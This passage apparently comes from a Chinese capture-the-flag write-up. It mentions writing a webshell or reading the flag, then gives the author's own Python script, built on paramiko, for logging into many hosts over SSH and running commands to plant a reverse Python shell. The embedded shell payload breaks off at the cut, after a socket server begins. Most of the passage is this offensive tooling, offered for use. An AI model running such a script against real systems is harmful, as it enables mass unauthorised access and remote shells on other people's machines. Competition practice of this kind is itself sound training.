 ```python
print(a)
```

执行命令可以是写webshell或着直接查看flag 并返回提交

这里献上自己写的批量ssh登录并反弹python shell

```python
#-*- coding:utf-8 -*-
import paramiko
import threading
import queue
import time
#反弹shell python

q=queue.Queue()
#lock = threading.Lock()

# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd):
    port = int(port)
    ssh = paramiko.SSHClient()

    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    ssh.connect(hostname=ip, port=port, username=username, password=passwd)

    stdin,stdout,stderr = ssh.exec_command(cmd)

    result = stdout.read()
    if not result :
        result = stderr.read()
    ssh.close()
    
    return result.decode()

def main(x):
    shell = '''
    #服务器端
    import socket
    import os
    s=socket.socket()   #创建套接字 #s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

